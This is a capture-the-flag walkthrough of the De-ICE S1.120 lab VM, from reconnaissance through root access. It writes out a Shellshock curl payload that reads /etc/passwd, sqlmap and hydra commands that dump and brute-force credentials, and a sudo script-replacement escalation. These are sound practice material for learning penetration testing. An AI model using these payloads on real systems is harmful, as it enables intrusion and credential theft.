

# De-ICE: S1.120 Walkthrough


---

If you're interested to try it out, more details here: [https://www.vulnhub.com/entry/de-ice-s1120,10/](https://www.vulnhub.com/entry/de-ice-s1120,10/)

---

# Stage 0: Preparation

Since the IP address of the Boot2Root VM is a static IP address of 192.168.1.100/24, we will need to change our IP address to match the subnet

`ifconfig eth0 192.168.1.101 netmask 255.255.255.0`

---

# Stage 1: Reconnaissance

Tools used:
* nmap

First of all, obligatory network scan:

```
root@kali:~# nmap -n -sV 192.168.1.120 -T4
Starting Nmap 7.40 ( https://nmap.org ) at xxxx-xx-xx xx:xx EDT
Nmap scan report for 192.168.1.120
Host is up (0.00017s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      ProFTPD 1.3.2
22/tcp   open  ssh      OpenSSH 5.1 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.2.11 ((Unix) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8k PHP/5.2.9 mod_apreq2-20051231/2.6.0 mod_perl/2.0.4 Perl/v5.10.0)
443/tcp  open  ssl/http Apache httpd 2.2.11 ((Unix) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8k PHP/5.2.9 mod_apreq2-20051231/2.6.0 mod_perl/2.0.4 Perl/v5.10.0)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:BD:09:C1 (Oracle VirtualBox virtual NIC)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

---

# Stage 2: Enumeration

Tools used:
* nikto

Since there is a web service running, let us see what we can find using `nikto`:

```
root@kali:~# nikto -host 192.168.1.120 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.120
+ Target Hostname:    192.168.1.120
+ Target Port:        80
+ Start Time:         xxxx-xx-xx xx:xx:xx (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.11 (Unix) DAV/2 mod_ssl/2.2.11 OpenSSL/0.9.8k PHP/5.2.9 mod_apreq2-20051231/2.6.0 mod_perl/2.0.4 Perl/v5.10.0
+ Retrieved x-powered-by header: PHP/5.2.9
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 8425, size: 30894, mtime: Fri May 11 08:40:36 2007
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var
+ Perl/v5.10.0 appears to be outdated (current is at least v5.14.2)
+ PHP/5.2.9 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ mod_apreq2-20051231/2.6.0 appears to be outdated (current is at least 2.6.1)
+ mod_perl/2.0.4 appears to be outdated (current is at least 2.0.7)
+ Apache/2.2.11 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ OpenSSL/0.9.8k appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ mod_ssl/2.2.11 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OSVDB-112004: /cgi-bin/printenv: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/printenv: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ Uncommon header 'nikto-added-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test-cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ mod_ssl/2.2.11 OpenSSL/0.9.8k PHP/5.2.9 mod_apreq2-20051231/2.6.0 mod_perl/2.0.4 Perl/v5.10.0 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-3268: /webalizer/: Directory indexing found.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3233: /cgi-bin/printenv: Apache 2.0 default script is executable and gives server environment variables. All default scripts should be removed. It may also allow XSS types of attacks. http://www.securityfocus.com/bid/4431.
+ OSVDB-3233: /cgi-bin/test-cgi: Apache 2.0 default script is executable and reveals system information. All default scripts should be removed.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8345 requests: 0 error(s) and 33 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT-4) (36 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Shellshock? Hell yeah! I can prove this by issuing `curl -A "() { :; }; echo 'Content-Type: text/plain'; echo; echo; /bin/cat /etc/passwd;" http://192.168.1.120/cgi-bin/test-cgi` and confirming that the passwd file is dumped. With that I can easily get a reverse shell this way. However, it feels unfair to use a 2015 exploit on a 2011 Boot2Root system. Let us challenge ourselves by finding another way in.

After poking the website for a while, I noticed that the id parameter in the URL is SQL injectable:



---

# Stage 3: Exploitation

Tools used:
* sqlmap
* hydra

Now that we know that an SQL injection is possible in the `id` field, as evident when we tried appending the `UNION` clause, we can use `sqlmap` to automate our SQL injection attack vector (you can also refer to this handy [MySQL SQLi cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for manual exploitation):

`root@kali:~# sqlmap --url=http://192.168.1.120/products.php?id=1 -D mysql -T user -C user,password --dump`

```
// Output truncated
Database: mysql
Table: user
[50 entries]
+------------+------------------------------------------------------+
| user       | password                                             |
+------------+------------------------------------------------------+
| aadams     | *B021918A5DCA54916CF724573179571DFC37AC88 (jennifer) |
| aallen     | *44FFB04331ADAECB1FAB104F634E9B066BF8C6DC (pokemon)  |
| aard       | *A7D31514D37A55CE91C6C5DF97299CBC1B1937EC (jordan)   |
| aharp      | *DB1B792EC6DAE393BAE7AD832D3AF207C12E9A00 (michael)  |
| aheflin    | *E56A114692FE0DE073F9A1DD68A00EEB9703F3F1 (123123)   |
| amaynard   | *90837F291B744BBE86DF95A37D2B2524185DBBF5 (whatever) |
| aspears    | *24B8599BAF46DD4B4D8DB50A3B10136457492622 (starwars) |
| aweiland   | *6691484EA6B50DDDE1926A220DA01FA9E575C18A (abc123)   |
| bbanter    | *4DC6D98E4CF6200B9F5529AFDE2E3B909F41E4D0 (kotaku)   |
| bphillips  | *F491287896471CB21030790BF46865C4A39DE651 (batman)   |
| bwatkins   | *CFBF459D9D6057BC2A85477A38327B96F06B1597 (iloveyou) |
| cchisholm  | *AE9F960F8FA0994C9878D2245DA640EAFF09BA0E (superman) |
| ccoffee    | *D37C49F9CBEFBF8B6F4B165AC703AA271E079004 (letmein)  |
| dcooper    | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 (password) |
| dgilfillan | *B2B366CA5C4697F31D4C55D61F0B17E70E5664EC (666666)   |
| dgrant     | *626AC8265C7D53693CB7478376CE1B4825DFF286 (pepper)   |
| djohnson   | *84AAC12F54AB666ECFC2A83C676908C8BBC381B1 (12345678) |
| dstevens   | *AA1420F182E88B9E5F874F6FBE7459291E8F4601 (qwerty)   |
| dtraylor   | *8D6A637F37955DBFCE1229204DDBED1CE11E6F41 (master)   |
| dwestling  | *A4B6157319038724E3560894F7F932C8886EBFCF (1234)     |
| hlovell    | *2A032F7C5BA932872F0F045E0CF6B53CF702F2C5 (654321)   |
| jalcantar  | *B12289EEF8752AD620294A64A37CD586223AB454 (0)        |
| jalvarez   | *FD571203974BA9AFE270FE62151AE967ECA5E0AA (111111)   |
| jayala     | *D6B63C1953E7F096DB307F8AC48C4AD703E57001 (sunshine) |
| jbresnahan | *2CE4701D02A76C12CD513109CA16967A68B4C23A (princess) |
| jdavenport | *61305383748FBEAB119F9A8BC35EBBADB4889A9D (babyl0n)  |
| jduff      | *22AC3D548EB2C2A2F4E609ADA63251D0AF795AD9 (nintendo) |
| jfranklin  | *3EEB06BE54EABF909DC8F6107110777F1DE43186 (gawker)   |
| kclemons   | *D183105443FBDE597607B8BC5475A9E1B7847F3E (gizmodo)  |
| krenfro    | *FBA7C2D27C9D05F3FD4C469A1BBAF557114E5594 (Password) |
| ktso       | *74B1C21ACE0C2D6B0678A5E503D2A60E8F9651A3 (passw0rd) |
| kwebber    | *446525BB82B5E22BD9E525261D37C494F623C52B (blahblah) |
| lmartinez  | *81101DED975D54BD76A3C8EAD293597AE9BB143F (computer) |
| lmorales   | *51AA306E66303073DBA15D2750E23C90C7A7F947 (baseball) |
| mbryan     | *46CFC7938B60837F46B610A2D10C248874555C14 (trustno1) |
| mholland   | *3B477BC23EA39BFF66D64BFB68DB5EC5F5E31C91 (consumer) |
| mnader     | *F8E113FD51D520075836A4B815568BA2B96F7C30 (dragon)   |
| mrodriguez | *00A51F3F48415C7D4E8908980D443C29C69B60C9 (12345)    |
| myajima    | *7FD9F123C9FC025372A5AAD19D107783CD19CCF7 (cheese)   |
| qpowers    | *79BF466BCC601BD91A0897BB162421F9BA8C29CA (lifehack) |
| rdominguez | *6A7A490FB9DC8C33C2B025A91737077A7E9CC5E5 (1234567)  |
| rjacobson  | *797420C584EBF42750EB523104268BA0FD87FBC8 (internet) |
| rpatel     | *DF216F57F1F2066124E1AA5491D995C3CB57E4C2 (welcome)  |
| sgains     | *C5FEAC8A32D4FAFF1EF681447DA706634352AFF8 (killer)   |
| sjohnson   | *94F3DC3F398B76269CAAD51627279D4233A6C89A (soccer)   |
| strammel   | *ED043A01F4583450BC8EB1E83C00C372CA49C4E4 (michelle) |
| swarren    | *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 (123456)   |
| tdeleon    | *7B2F14D9BB629E334CD49A1028BD85750F7D3530 (shadow)   |
| tgoodchap  | *FCAAF3F0BD94C027B2769A95903C355CE6294660 (football) |
| webapp     | *0DCC22A95EEBFF4984DF6A7B7F2D7D28DBB5F36F            |
+------------+------------------------------------------------------+
```

Although we crack a ton of user credentials from the DB, the user `webapp` is still not cracked (you can find out what user is used to access the DB with the `user()` MySQL function). I then proceeded to use `hydra` to enumerate all the users and passwords for SSH:

```
root@kali:~# hydra -L users.txt -P pass.txt 192.168.1.120 ssh
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at xxxx-xx-xx xx:xx:x
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 64 tasks, 2499 login tries (l:51/p:49), ~2 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.120   login: aadams   password: computer
[22][ssh] host: 192.168.1.120   login: amaynard   password: internet
[22][ssh] host: 192.168.1.120   login: aspears   password: michael
[22][ssh] host: 192.168.1.120   login: aweiland   password: gizmodo
[22][ssh] host: 192.168.1.120   login: bbanter   password: starwars
[22][ssh] host: 192.168.1.120   login: bphillips   password: blahblah
[22][ssh] host: 192.168.1.120   login: bwatkins   password: 111111
[22][ssh] host: 192.168.1.120   login: cchisholm   password: qwerty
[22][ssh] host: 192.168.1.120   login: ccoffee   password: 666666
// Output truncated
```

After logging in each user one by one, I found out that `jdavenport` user has interesting files in their home folder. Interestingly, `ccoffee` belongs to the group `admin` and has sudo privileges.

```
jdavenport@slax:~$ ls -l
total 8
-rwx------ 1 jdavenport users 495 Oct 20 18:03 company_address.txt*
-rwx------ 1 jdavenport users  34 Oct 20 18:03 svrc.txt*

jdavenport@slax:~$ cat company_address.txt 
Good Evening everyone,  I would like to start off by letting you know how honored I am 
for being promoted to server as Primaline's Chief Information Officer.
As many of you know, we recently suffered several attacks on our servers from outside parties.
Thankfully, none of the attacks were successful.  I want you to know that I am personally working to lockdown every server that Primaline
controls in order to protect both our company as well as all of you who serve as our valued employees.

jdavenport@slax:~$ cat svrc.txt 
I ate 47 hot dogs last Tuesday!@!

ccoffee@slax:~$ id
uid=1017(ccoffee) gid=100(users) groups=100(users),102(admin)

ccoffee@slax:~$ sudo -l
User ccoffee may run the following commands on this host:
    (root) NOPASSWD: /home/ccoffee/scripts/getlogs.sh

ccoffee@slax:~$ ls 
DONOTFORGET*  scripts/

ccoffee@slax:~$ cat DONOTFORGET 
remember your 20th anniversary on the 5th!!!!!!!!!1111!!

ccoffee@slax:~$ cat scripts/getlogs.sh 
cat: scripts/getlogs.sh: Permission denied

ccoffee@slax:~$ ls -l scripts/getlogs.sh 
-rws--x--x 1 root admin 110 Oct 20 18:03 scripts/getlogs.sh*

ccoffee@slax:~/scripts$ sudo ./getlogs.sh      
wrong!
```

When we try to read it, it gives us a permission denied error. However, as a user in the `admin` group, we have executable permissions on it, when we try to run it, it simply gives us a "wrong!" message back! What is happening?

In hindsight, there is a neat way to get root. Because `coffee` is given sudo powers on `/home/ccoffee/scripts/getlogs.sh` and it will run that script as root, we can simply put our own script in it:

```
coffee@slax:~# cat scripts/getlogs.sh
#!/bin/bash

/bin/bash -i
```

When you execute the script using sudo, you become root! For curiosity's sake, let us see what's up with the original `getlogs.sh` file:

```
bash-3.1# cat scripts/getlogs.sh.bak 
#!/bin/bash
if [ "$2" == "emerald" ]; then
	while read line
	do
		echo $line
	done < $1
else
	echo wrong!
fi
```

So there you have it, this challenge proved to be a good experience for me and it taught me especially to:
1) Remember to enumerate the groups of all the users
2) Think out of the box when trying to get root by exploiting trust. If `root` is set to run that particular file, there is probably a way to make `root` run a different file.